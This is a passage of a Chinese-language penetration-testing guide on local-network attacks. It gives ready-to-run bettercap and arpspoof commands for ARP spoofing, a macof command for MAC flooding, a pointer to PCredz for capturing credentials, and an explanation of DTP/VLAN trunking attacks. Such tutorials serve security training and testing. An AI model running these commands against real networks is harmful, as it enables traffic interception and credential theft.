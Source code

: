 ```bash
```
### Wireshark

显然。

### 捕获凭证

您可以使用像 [https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz) 这样的工具从 pcap 或实时接口中解析凭证。

## LAN 攻击

### ARP 欺骗

ARP 欺骗是指发送无偿的 ARP 响应，以指示某台机器的 IP 地址具有我们设备的 MAC 地址。然后，受害者将更改 ARP 表，并在每次想要联系伪造的 IP 时与我们的机器联系。

#### **Bettercap**
```bash
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
```
#### **Arpspoof**
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```
### MAC Flooding - CAM overflow

通过发送大量具有不同源 MAC 地址的数据包来溢出交换机的 CAM 表。当 CAM 表满时，交换机开始像集线器一样工作（广播所有流量）。
```bash
macof -i <interface>
```
在现代交换机中，这个漏洞已经被修复。

### 802.1Q VLAN / DTP 攻击

#### 动态干道

**动态干道协议 (DTP)** 被设计为一个链路层协议，以便于自动化的干道系统，使交换机能够自动选择干道模式 (Trunk) 或非干道模式的端口。**DTP** 的部署通常被视为网络设计不佳的标志，强调了仅在必要时手动配置干道的重要性，并确保适当的文档记录。

默认情况下，交换机端口设置为动态自动模式，这意味着它们准备在邻近交换机的提示下启动干道。当渗透测试者或攻击者连接到交换机并发送 DTP Desirable 帧时，会引发安全问题，迫使端口进入干道模式。这一行为使攻击者能够通过 STP 帧分析枚举 VLAN，并通过设置虚拟接口来规避 VLAN 分段。

许多交换机默认存在 DTP，敌手可以利用这一点模仿交换机的行为，从而获得对所有 VLAN 流量的访问。脚本 [_**dtpscan.sh**_](https://github.com/commonexploits/dtpscan) 用于监控接口，揭示交换机是否处于默认、干道、动态、自动或接入模式——后者是唯一免受 VLAN 跳跃攻击的配置。该工具评估交换机的漏洞状态。
